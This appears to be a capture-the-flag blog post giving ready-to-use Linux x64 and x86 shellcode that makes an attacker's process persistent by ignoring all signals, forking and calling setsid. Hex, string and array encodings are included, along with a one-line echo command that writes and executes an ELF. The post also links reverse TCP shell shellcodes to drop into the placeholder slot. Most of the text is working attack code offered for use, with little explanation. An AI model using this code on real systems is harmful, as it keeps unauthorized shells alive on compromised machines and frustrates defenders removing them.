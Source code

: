 ```yaml
---
title: How to persist shell in Attack-Defense CTF
tags: ["CTF", "PWN"]
---
```


## Table of Contents

- [Linux/x64](#linux-x64)
  - [Assembly](#linux-x64-assembly)
  - [Other formats](#linux-x64-other-formats)
  - [Recommended shellcode](#linux-x64-recommended-shellcode)
- [Linux/x86](#linux-x86)
  - [Assembly](#linux-x86-assembly)
  - [Other formats](#linux-x86-other-formats)
  - [Recommended shellcode](#linux-x86-recommended-shellcode)
- [References](#references)

<!-- description -->

## <a id='linux-x64'></a>Linux/x64

### <a id='linux-x64-assembly'></a>Assembly

```nasm
;// struct sigaction *action; sigemptyset(&action->sa_mask);
      xor rdx, rdx
      push 0x11
      pop rcx
sigemptyset:
      dec rcx
      push rdx
      jnz sigemptyset
;// action->sa_handler = SIG_IGN;
      push 0x1
      mov rsi, rsp
      push 0x8
      pop r10

;// for(int i=0; i<0x20; i++) signal(i, SIG_IGN);
      push 0x20
ignore:
      pop rcx
      dec rcx
      push rcx
      push rcx
      pop rdi
      push 0xd
      pop rax
      syscall
      jnz ignore

fork:
;// if (!fork()) { for(int i=-1; i==0; i--); exit(); } else { /* child */}
      push 0x39
      pop rax
      syscall
      test rax, rax
      je child
      xor ecx, ecx
sleep:
      dec ecx
      jnz sleep
      push 0x3c
      pop rax
      syscall ;// exit();

child:
;// setsid();
      push 0x70
      pop rax
      syscall

;// shellcode goes here
      int3
      int3
      int3
      int3
      int3
      int3
      int3
      int3

;// infinite loop
      ;// jmp child ;// '\xeb'+chr(256-7-len(shellcode))
      ;// jmp fork  ;// '\xeb'+chr(256-28-len(shellcode))
```

### <a id='linux-x64-other-formats'></a>Other formats:

| Format | Value |
| ------ | ----- |
| Raw Hex | 4831D26A115948FFC95275FA6A014889E66A08415A6A205948FFC951515F6A0D580F0575F26A39580F054885C0740B31C9FFC975FC6A3C580F056A70580F05[**CCCCCCCCCCCCCCCC**](#your-shellcode) |
| String Literal | \x48\x31\xD2\x6A\x11\x59\x48\xFF\xC9\x52\x75\xFA\x6A\x01\x48\x89\xE6\x6A\x08\x41\x5A\x6A\x20\x59\x48\xFF\xC9\x51\x51\x5F\x6A\x0D\x58\x0F\x05\x75\xF2\x6A\x39\x58\x0F\x05\x48\x85\xC0\x74\x0B\x31\xC9\xFF\xC9\x75\xFC\x6A\x3C\x58\x0F\x05\x6A\x70\x58\x0F\x05[**\xCC\xCC\xCC\xCC\xCC\xCC\xCC\xCC**](#your-shellcode) |
| Array Literal | {0x48,0x31,0xD2,0x6A,0x11,0x59,0x48,0xFF,0xC9,0x52,0x75,0xFA,0x6A,0x01,0x48,0x89,0xE6,0x6A,0x08,0x41,0x5A,0x6A,0x20,0x59,0x48,0xFF,0xC9,0x51,0x51,0x5F,0x6A,0x0D,0x58,0x0F,0x05,0x75,0xF2,0x6A,0x39,0x58,0x0F,0x05,0x48,0x85,0xC0,0x74,0x0B,0x31,0xC9,0xFF,0xC9,0x75,0xFC,0x6A,0x3C,0x58,0x0F,0x05,0x6A,0x70,0x58,0x0F,0x05,[**0xCC,0xCC,0xCC,0xCC,0xCC,0xCC,0xCC,0xCC**](#your-shellcode)} |
| Shell Script | echo -en '\x7f\x45\x4c\x46\x02\x01\x01\x00\x00\x00\x00\x00\x00\x00\x00\x00\x02\x00\x3e\x00\x01\x00\x00\x00\x80\x00\x40\x00\x00\x00\x00\x00\x40\x00\x00\x00\x00\x00\x00\x00\x60\x02\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x40\x00\x38\x00\x01\x00\x40\x00\x05\x00\x04\x00\x01\x00\x00\x00\x05\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x40\x00\x00\x00\x00\x00\x00\x00\x40\x00\x00\x00\x00\x00\xc7\x00\x00\x00\x00\x00\x00\x00\xc7\x00\x00\x00\x00\x00\x00\x00\x00\x00\x20\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x48\x31\xd2\x6a\x11\x59\x48\xff\xc9\x52\x75\xfa\x6a\x01\x48\x89\xe6\x6a\x08\x41\x5a\x6a\x20\x59\x48\xff\xc9\x51\x51\x5f\x6a\x0d\x58\x0f\x05\x75\xf2\x6a\x39\x58\x0f\x05\x48\x85\xc0\x74\x0b\x31\xc9\xff\xc9\x75\xfc\x6a\x3c\x58\x0f\x05\x6a\x70\x58\x0f\x05[**\xcc\xcc\xcc\xcc\xcc\xcc\xcc\xcc**](#your-shellcode)\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x03\x00\x01\x00\x80\x00\x40\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x01\x00\x00\x00\x04\x00\xf1\xff\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x16\x00\x00\x00\x00\x00\x01\x00\x86\x00\x40\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x22\x00\x00\x00\x00\x00\x01\x00\x97\x00\x40\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x29\x00\x00\x00\x00\x00\x01\x00\xa5\x00\x40\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x2e\x00\x00\x00\x00\x00\x01\x00\xb1\x00\x40\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x34\x00\x00\x00\x00\x00\x01\x00\xba\x00\x40\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x3f\x00\x00\x00\x10\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x3a\x00\x00\x00\x10\x00\x01\x00\xc7\x00\x60\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x46\x00\x00\x00\x10\x00\x01\x00\xc7\x00\x60\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x4d\x00\x00\x00\x10\x00\x01\x00\xc8\x00\x60\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x62\x61\x64\x61\x73\x73\x2d\x6c\x69\x6e\x75\x78\x2d\x78\x36\x34\x2e\x61\x73\x6d\x00\x73\x69\x67\x65\x6d\x70\x74\x79\x73\x65\x74\x00\x69\x67\x6e\x6f\x72\x65\x00\x66\x6f\x72\x6b\x00\x73\x6c\x65\x65\x70\x00\x63\x68\x69\x6c\x64\x00\x5f\x5f\x62\x73\x73\x5f\x73\x74\x61\x72\x74\x00\x5f\x65\x64\x61\x74\x61\x00\x5f\x65\x6e\x64\x00\x00\x2e\x73\x79\x6d\x74\x61\x62\x00\x2e\x73\x74\x72\x74\x61\x62\x00\x2e\x73\x68\x73\x74\x72\x74\x61\x62\x00\x2e\x74\x65\x78\x74\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x1b\x00\x00\x00\x01\x00\x00\x00\x06\x00\x00\x00\x00\x00\x00\x00\x80\x00\x40\x00\x00\x00\x00\x00\x80\x00\x00\x00\x00\x00\x00\x00\x47\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x10\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x01\x00\x00\x00\x02\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\xc8\x00\x00\x00\x00\x00\x00\x00\x20\x01\x00\x00\x00\x00\x00\x00\x03\x00\x00\x00\x08\x00\x00\x00\x08\x00\x00\x00\x00\x00\x00\x00\x18\x00\x00\x00\x00\x00\x00\x00\x09\x00\x00\x00\x03\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\xe8\x01\x00\x00\x00\x00\x00\x00\x52\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x01\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x11\x00\x00\x00\x03\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x3a\x02\x00\x00\x00\x00\x00\x00\x21\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x01\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00' > persist-linux-x64 && chmod +x persist-linux-x64 && ./persist-linux-x64 |

### <a id='linux-x64-recommended-shellcode'></a>Recommended shellcode:

- [Linux/x64 - Reverse TCP shell - 118 bytes ](http://shell-storm.org/shellcode/files/shellcode-857.php) *by Russell Willis*
- [How to be a badass in Attack-Defense CTF]({% post_url 2020-12-18-How-to-be-a-badass-in-Attack-Defense-CTF %}#linux-x64-assembly) *by tr3e*

## <a id='linux-x86'></a>Linux/x86

### <a id='linux-x86-assembly'></a>Assembly

```nasm
;// for(int i=0; i<0x20; i++) signal(i, SIG_IGN);
      push 0x20
ignore:
      pop ecx
      dec ecx
      push 0x1
      pop esi
      push ecx
      pop edi
      push 0x30
      pop eax
      push ecx
      int 0x80
      jnz ignore

fork:
;// if (!fork()) { for(int i=-1; i==0; i--); exit(); } else { /* child */}
      push 0x02
      pop eax
      int 0x80
      test eax, eax
      je child
      xor ecx, ecx
sleep:
      dec ecx
      jnz sleep
      push 0x1
      pop eax
      int 0x80

child:
;// setsid();
      push 0x42
      pop eax
      int 0x80

;// shellcode goes here
      int3
      int3
      int3
      int3
      int3
      int3
      int3
      int3

;// infinite loop
      ;// jmp child ;// '\xeb'+chr(256-7-len(shellcode))
      ;// jmp fork  ;// '\xeb'+chr(256-26-len(shellcode))
```

### <a id='linux-x86-other-formats'></a>Other formats:

| Format | Value |
| ------ | ----- |
| Raw Hex | 6A2059496A015E515F6A305851CD8075F16A0258CD8085C0740A31C94975FD6A0158CD806A4258CD80[**CCCCCCCCCCCCCCCC**](#your-shellcode) |
| String Literal | \x6A\x20\x59\x49\x6A\x01\x5E\x51\x5F\x6A\x30\x58\x51\xCD\x80\x75\xF1\x6A\x02\x58\xCD\x80\x85\xC0\x74\x0A\x31\xC9\x49\x75\xFD\x6A\x01\x58\xCD\x80\x6A\x42\x58\xCD\x80[**\xCC\xCC\xCC\xCC\xCC\xCC\xCC\xCC**](#your-shellcode) |
| Array Literal | {0x6A,0x20,0x59,0x49,0x6A,0x01,0x5E,0x51,0x5F,0x6A,0x30,0x58,0x51,0xCD,0x80,0x75,0xF1,0x6A,0x02,0x58,0xCD,0x80,0x85,0xC0,0x74,0x0A,0x31,0xC9,0x49,0x75,0xFD,0x6A,0x01,0x58,0xCD,0x80,0x6A,0x42,0x58,0xCD,0x80,[**0xCC,0xCC,0xCC,0xCC,0xCC,0xCC,0xCC,0xCC**](#your-shellcode)} |
| Shell Script | echo -en '\x7f\x45\x4c\x46\x01\x01\x01\x00\x00\x00\x00\x00\x00\x00\x00\x00\x02\x00\x03\x00\x01\x00\x00\x00\x60\x80\x04\x08\x34\x00\x00\x00\xac\x01\x00\x00\x00\x00\x00\x00\x34\x00\x20\x00\x01\x00\x28\x00\x05\x00\x04\x00\x01\x00\x00\x00\x00\x00\x00\x00\x00\x80\x04\x08\x00\x80\x04\x08\x91\x00\x00\x00\x91\x00\x00\x00\x05\x00\x00\x00\x00\x10\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x6a\x20\x59\x49\x6a\x01\x5e\x51\x5f\x6a\x30\x58\x51\xcd\x80\x75\xf1\x6a\x02\x58\xcd\x80\x85\xc0\x74\x0a\x31\xc9\x49\x75\xfd\x6a\x01\x58\xcd\x80\x6a\x42\x58\xcd\x80[**\xcc\xcc\xcc\xcc\xcc\xcc\xcc\xcc**](#your-shellcode)\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x60\x80\x04\x08\x00\x00\x00\x00\x03\x00\x01\x00\x01\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x04\x00\xf1\xff\x16\x00\x00\x00\x62\x80\x04\x08\x00\x00\x00\x00\x00\x00\x01\x00\x1d\x00\x00\x00\x71\x80\x04\x08\x00\x00\x00\x00\x00\x00\x01\x00\x22\x00\x00\x00\x7c\x80\x04\x08\x00\x00\x00\x00\x00\x00\x01\x00\x28\x00\x00\x00\x84\x80\x04\x08\x00\x00\x00\x00\x00\x00\x01\x00\x33\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x10\x00\x00\x00\x2e\x00\x00\x00\x91\x90\x04\x08\x00\x00\x00\x00\x10\x00\x01\x00\x3a\x00\x00\x00\x91\x90\x04\x08\x00\x00\x00\x00\x10\x00\x01\x00\x41\x00\x00\x00\x94\x90\x04\x08\x00\x00\x00\x00\x10\x00\x01\x00\x00\x62\x61\x64\x61\x73\x73\x2d\x6c\x69\x6e\x75\x78\x2d\x78\x38\x36\x2e\x61\x73\x6d\x00\x69\x67\x6e\x6f\x72\x65\x00\x66\x6f\x72\x6b\x00\x73\x6c\x65\x65\x70\x00\x63\x68\x69\x6c\x64\x00\x5f\x5f\x62\x73\x73\x5f\x73\x74\x61\x72\x74\x00\x5f\x65\x64\x61\x74\x61\x00\x5f\x65\x6e\x64\x00\x00\x2e\x73\x79\x6d\x74\x61\x62\x00\x2e\x73\x74\x72\x74\x61\x62\x00\x2e\x73\x68\x73\x74\x72\x74\x61\x62\x00\x2e\x74\x65\x78\x74\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x1b\x00\x00\x00\x01\x00\x00\x00\x06\x00\x00\x00\x60\x80\x04\x08\x60\x00\x00\x00\x31\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x10\x00\x00\x00\x00\x00\x00\x00\x01\x00\x00\x00\x02\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x94\x00\x00\x00\xb0\x00\x00\x00\x03\x00\x00\x00\x07\x00\x00\x00\x04\x00\x00\x00\x10\x00\x00\x00\x09\x00\x00\x00\x03\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x44\x01\x00\x00\x46\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x01\x00\x00\x00\x00\x00\x00\x00\x11\x00\x00\x00\x03\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x8a\x01\x00\x00\x21\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x01\x00\x00\x00\x00\x00\x00\x00' > persist-linux-x86 && chmod +x persist-linux-x86 && ./persist-linux-x86 |

### <a id='linux-x86-recommended-shellcode'></a>Recommended shellcode:

- [Linux/x86 - Shell Reverse TCP Shellcode - 72 bytes](http://shell-storm.org/shellcode/files/shellcode-833.php) *by Geyslan G. Bem*
- [How to be a badass in Attack-Defense CTF]({% post_url 2020-12-18-How-to-be-a-badass-in-Attack-Defense-CTF %}#linux-x86-assembly) *by tr3e*

## References

1. [setsid(2) - Linux man page](https://linux.die.net/man/2/setsid)
2. [w3challs syscall table](https://syscalls.w3challs.com/)
2. [Shellcodes database for study cases](http://shell-storm.org/shellcode/)